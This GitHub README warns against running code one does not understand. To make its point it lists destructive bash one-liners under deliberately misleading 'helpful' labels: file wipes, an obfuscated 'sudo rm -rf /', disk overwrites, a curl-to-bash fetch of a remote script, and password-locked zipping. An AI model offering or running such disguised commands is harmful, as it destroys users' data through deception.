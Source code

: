 # My one page argument for learning to code (examples exaplained)

## **_NEVER_** run code you don't understand

I often hear people call themselves 'Copy and paste' coders. And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things. A better method is to find code, see what is done and then recreate it, and at a bare minimal, copy it, but know exactly what it does. \
Here is my small example of code that has unintended results.


> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands
Note: Most of these will error, unless spuressed with ```&> /dev/null``` but alot of damage can still be done before you can take action.

A. Greatly simplifies document syntax: \
Find all files and replace all content with astriks

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space: \
Simply remove all files and folders

``` bash
du ~/ | grep -o '/.*' | xargs rm -rf --
```

C. Relinks your files to improve efficentcy: \
Replace all files with a link to the void (/dev/null)

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage: \
Moves all content 3 levels deep the void (dev/null)

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space: \
7375646f20726d202d7266202f0a is a hex dump of ```sudo rm -rf /``` \
The command reverses the dump and runs the output

``` bash
command $(echo 7375646f20726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know: \
This downloads code online and runs it without ever you reviewing or seeing it

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

G. Frees up uneccesary space: \
This transforms 'stream -draft ~/saved' into ```rm -rf ~/``` by removing all characters between a-e and s-z and then evaulates it

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space: \
Compresses all files 5 levels deep to a random zip file with a random password of 64 characters. It does not store the password.

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes: \
Copy the contents of /dev/random to each drive is /dev/

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life: \
Finds all files and replaces the contents with nothing

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \;
```

K. Keep logs of files in the home folder utilising your current files
Replaces the contents of every files with the filename

```bash
find ~/ -type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

K. Keep logs of files in the home folder utilising your current files
Replaces the contents of every files with the filename

```bash
find ~/ -type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

L. Cut down on disk space without removing a file:
Blank out each and every file with zero contents

```bash
n=`df -i | grep "/$" | awk '{print $6}'`;eval `stat -s /`;for i in $(seq $n 0);do [ -f /.vol/$st_dev/$i ] && echo >/.vol/$st_dev/$i; done            
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
6. Rinse and repeat
